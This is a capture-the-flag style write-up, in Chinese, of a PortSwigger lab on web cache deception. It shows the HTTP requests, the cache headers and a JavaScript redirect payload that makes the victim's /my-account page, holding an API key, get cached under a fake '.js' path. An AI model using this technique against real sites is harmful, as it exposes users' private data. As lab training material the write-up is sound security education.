




# Lab: Exploiting path mapping for web cache deception

[Open Lab](https://portswigger.net/web-security/web-cache-deception/lab-wcd-exploiting-path-mapping)



## Goal

利用 origin server 和 cache 對 path mapping 的解析差異，讓 victim 的 `/my-account` 回應被 cache，藉此取得 `carlos` 的 API key。

## Steps

### Step 1: 登入並確認敏感頁面

開啟 Lab 後會看到一個 Blog 網站。點選右上角 **My account** 進入登入頁面，使用題目提供的帳號密碼登入：

- Username: `wiener`
- Password: `peter`

登入成功後會進入顯示 **API Key** 的頁面。此頁面包含敏感資訊，目標是取得 victim `carlos` 的 API key。



### Step 2: 鎖定敏感 URL

敏感資訊所在的路徑為：

```text
https://<LAB-ID>.web-security-academy.net/my-account
```

### Step 3: 在 Burp Repeater 重放請求

在 Burp 的 **Proxy > HTTP history** 找到 `GET /my-account`，右鍵選擇 **Send to Repeater**，用來測試不同 path 是否會被 cache。



### Step 4: 確認正常請求可取得自己的 API key

在 Repeater 中直接送出原始請求：

```http
GET /my-account
```

可正常取得登入者 `wiener` 的 API key。

同時記錄回應 headers。此時沒有顯示可快取的 header：

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3824
```

### Step 5: 測試靜態副檔名路徑觸發快取

嘗試把路徑改成看起來像靜態資源的形式，測試 `.js` 副檔名：

```http
GET /my-account/abc.js
```

送出後發現回應開始出現快取相關 headers，代表這個 URL 版本可能會被快取：

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 3824
```

### Step 6: 確認 cache hit

快速再送一次完全相同的請求：

```http
GET /my-account/abc.js
```

可以看到 `X-Cache: hit`：

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 1
X-Cache: hit
Content-Length: 3824
```

### Step 7: 在 Exploit Server 讓 victim 觸發快取

回到瀏覽器點選 **Go to exploit server**，進入 **Craft a response** 頁面。在 **Body** 放入以下 payload，讓 victim `carlos` 造訪可被快取的路徑：

```html
<script>
  document.location = "https://<LAB-ID>.web-security-academy.net/my-account/abc.js";
</script>
```

### Step 8: 取得 victim 的 API key

點選 **Deliver exploit to victim** 後，等待 victim 觸發請求並讓快取儲存其回應。

接著造訪：

```text
https://<LAB-ID>.web-security-academy.net/my-account/abc.js
```

即可看到頁面顯示的 API key 變成 victim `carlos` 的，因為快取回傳了 victim 當時的敏感內容。



### Step 9: Submit the solution

點選 **Submit solution**，將 `carlos` 的 API key 貼到 Answer 提交。

## Result

成功取得 `carlos` 的 API key，完成 lab。
